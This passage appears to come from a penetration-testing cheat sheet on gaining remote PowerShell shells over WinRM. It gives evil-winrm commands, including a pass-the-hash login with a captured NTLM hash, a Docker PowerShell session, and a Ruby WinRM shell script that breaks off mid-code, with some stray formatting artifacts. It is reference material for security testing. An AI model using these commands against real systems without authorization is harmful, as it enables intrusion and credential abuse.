 ```
### Using evil-winrm

```ruby
gem install evil-winrm
```
```
Read **documentation** on its github: [[https://github.com/Hackplayers/evil-winrm|https://github.com/Hackplayers/evil-winrm]]

```ruby
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```
```
To use evil-winrm to connect to an **IPv6 address** create an entry inside _**/etc/hosts**_ setting a **domain name** to the IPv6 address and connect to that domain.

### Pass the hash with evil-winrm

```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```
```
![[<../images/image (680).png>|]]

### Using a PS-docker machine

```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```
```
### Using a ruby script

**Code extracted from here:** [[https://alamot.github.io/winrm_shell/|**https://alamot.github.io/winrm_shell/**]]

```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt
# https://alamot.github.io/winrm_shell/

conn = WinRM::Connection.new(
  endpoint: 'https://IP:PORT/wsman',
  transport: :ssl,
  user: 'username',
  password: 'password',
  :no_ssl_peer_verification => true
)

class String
  def tokenize
    self.
      split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
      select {|s| not s.empty? }.
      map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
  end
end

command=""
file_manager = WinRM::FS::FileManager.new(conn)

conn.shell(:powershell) do |shell|
```